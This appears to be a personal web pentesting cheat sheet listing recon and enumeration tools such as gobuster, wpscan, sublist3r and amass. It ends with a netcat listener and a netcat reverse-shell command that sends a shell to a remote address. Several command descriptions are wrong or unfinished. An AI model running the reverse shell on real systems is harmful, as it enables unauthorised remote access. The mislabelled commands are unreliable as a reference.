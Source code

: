 All commands and links i need to sort.  


Recon  
Find Vuln  
Exploit  
Evlate   
Repeat  
ZAP better then burp  

## Web Enumeration ##
wappalyzer - good plugin for looking at website platforms or software. add this to my hacking soe

crt.sh - website to search for subdomains.  

curl -u http://website - display website header and info  

dirsearch -u http://website - enumerates subdirectories  
gobuster dir -u http://website -w /usr/share/seclist - enumerates subdirectories  
gobuster dns -d http://website -w dns Jhaddix.txt - enumerates subdirectories  

sublist3r -d http://website - enumerates subdirectories  (add -t 10 for multithread or faster search)

wpscan --url http://website --enumerate  u for user, p for plugins, t for themes  
wpscan --url http://website --enumerate  vp,vt --plugins-detection aggressive (need api token)  

amass enum -d domain --passive - gives XXXX  

python3 -m http.server 80 -- Start at adhoc webserver, good for quickly sharing files.    
  

## Online Tools ##
https://gchq.github.io/CyberChef/  -  

nc -lvp 1337  
nc -e /bon/sh ip 1337   

